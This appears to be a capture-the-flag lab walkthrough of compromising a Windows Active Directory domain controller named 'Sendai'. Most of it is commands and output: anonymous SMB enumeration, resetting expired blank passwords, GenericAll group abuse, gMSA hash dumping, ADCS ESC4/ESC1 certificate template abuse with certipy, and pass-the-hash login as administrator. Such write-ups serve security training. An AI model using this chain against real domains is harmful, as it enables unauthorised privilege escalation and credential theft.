






# Initial enumeration

## Nmap Scan

    PORT     STATE SERVICE       VERSION
    53/tcp   open  domain        Simple DNS Plus
    80/tcp   open  http          Microsoft IIS httpd 10.0
    |_http-server-header: Microsoft-IIS/10.0
    |http-methods: 

    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-07-04 04:27:58Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
    |_ssl-date: TLS randomness does not represent time
    | ssl-cert: Subject: commonName=dc.sendai.vl
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sendai.vl
    | Not valid before: 2024-07-04T03:40:19
    |_Not valid after:  2025-07-04T03:40:19
    443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
    445/tcp  open  microsoft-ds?
    3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=dc.sendai.vl
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sendai.vl

>I see that the SMB protocol is working and I realize that I can list the shares here anonymously.

    ➜  sendai smbclient -L \\dc.sendai.vl                    
    Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        config          Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        sendai          Disk      company share
        SYSVOL          Disk      Logon server share 
        Users           Disk  

 Here I look at the "sendai" post and find some usernames there.

Afterwards, I understand that there are some notifications in the system, that some users are disabled because their passwords are weak or that they are forced to change their passwords, so I try an empty password on the usernames I find.

I see that the user named "elliot.yates" and "thomas.powell" do not have a password and those passwords needs to be changed.

I will use the smbpasswd script in the impacket to change the password of this users.

    ➜  sendai impacket-smbpasswd senndai.vl/thomas.powell@dc.sendai.vl -newpass 'Osman.irem361'
    Impacket v0.12.0.dev1 - Copyright 2023 Fortra

    ===============================================================================
      Warning: This functionality will be deprecated in the next Impacket version  
    ===============================================================================

    Current SMB password: 
    [!] Password is expired, trying to bind with a null session.
    [*] Password was changed successfully.

But this service isn't exposed to us so moving on to enumerating the domain with bloodhound.

    ➜  sendai bloodhound-python -d 'sendai.vl' -u 'sqlsvc' -p '<redacted>' -c all -ns 10.10.96.134

Thomas.Powell is a member of Support group has GenericAll on ADMSVC group which has ReadGMSAPassword on MGTSVC$ account. We'll need to add thomas in ADMSVC group, read the NThash of MGTSVC account.

## Abusing GenericAll and reading GMSA password

Through bloodyAD we can add thomas in ADMSVC group having genericall rights.

[bloodyAD](https://github.com/CravateRouge/bloodyAD)

    ➜  bloodyAD git:(main) python3 bloodyAD.py --host 10.10.97.48 -d sendai.vl -u 'thomas.powell' -p 'Osman.  irem361' add groupMember ADMSVC thomas.powell
    [+] thomas.powell added to ADMSVC

With gmsadumper script or with netexec we can dump the nthash of mgtsvc account

[gMSADumper](https://github.com/micahvandeusen/gMSADumper)

    ➜  gMSADumper git:(main) ✗ python3 gMSADumper.py -u 'thomas.powell' -p 'Osman.irem361' -d 'sendai.vl'                                                     

    Users or groups who can read password for mgtsvc$:
    admsvc
    mgtsvc$:::57ae3a74c<redacted>
    mgtsvc$:aes256-cts-hmac-sha1-96:aa14b9413bb2c<redacted>
    mgtsvc$:aes128-cts-hmac-sha1-96:984cf<redacted>

Lets got shell with evil-winrm and upload [PrivescCheck](https://github.com/itm4n/PrivescCheck) amd looking for new road :D

## Enumerating ADCS

This user belongs to CA-Operators group, so he likely will be able to enroll in a custom template, enumerating templates with certipy

## Escalating privileges through ESC4

    ➜  sendai certipy-ad find -vulnerable -u clifford.davey@sendai.vl -dc-ip 10.10.97.48 -stdout
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    Password:
    [*] Finding certificate templates
    [*] Found 34 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 12 enabled certificate templates
    [*] Trying to get CA configuration for 'sendai-DC-CA' via CSRA
    [!] Got error while trying to get CA configuration for 'sendai-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
    [*] Trying to get CA configuration for 'sendai-DC-CA' via RRP
    [*] Got CA configuration for 'sendai-DC-CA'
    [*] Enumeration output:

    [!] Vulnerabilities
      ESC4                              : 'SENDAI.VL\\ca-operators' has dangerous permissions

This lists down a template SendaiComputer which has EKU set to Client Authentication that can be used to authenticate on the system and ca-operators group has Full control over this template which means we can edit this template and impersonate as the domain admin, which is known as ESC4 (access control) abuse

[Vulnerable Certificate Template Access Control - ESC4](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-template-access-control-esc4)

    ➜  sendai certipy-ad template -username clifford.davey@sendai.vl -password <redacted> -template SendaiComputer -save-old                                                                          

    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Saved old configuration for 'SendaiComputer' to 'SendaiComputer.json'
    [*] Updating certificate template 'SendaiComputer'
    [*] Successfully updated 'SendaiComputer'

This template has now been made vulnerable to ESC1.

    ➜  sendai certipy-ad req -u clifford.davey@sendai.vl -p '<redacted>' -dc-ip 10.10.97.48 -ca sendai-DC-CA -template SendaiComputer -upn administrator
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 5 
    [*] Got certificate with UPN 'administrator'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator.pfx'

I get a key with the command and with this key I can request the TGT of the administrator user or capture the NT hash and perform a pass the hash attack.

AND BOOOOMMMMMMMMM!!!!!!!!!!!!!!!!!!!!!!

    ➜  sendai certipy-ad auth -pfx administrator.pfx -username Administrator -domain sendai.vl    
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: administrator@sendai.vl
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:cfb106feec8b89a3d98e14dcbe8d087a
    ➜  sendai evil-winrm -i 10.10.97.48 -u administrator -H cfb106feec8b89a3d98e14dcbe8d087a
                                        
    Evil-WinRM shell v3.5
                                        
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    sendai\administrator    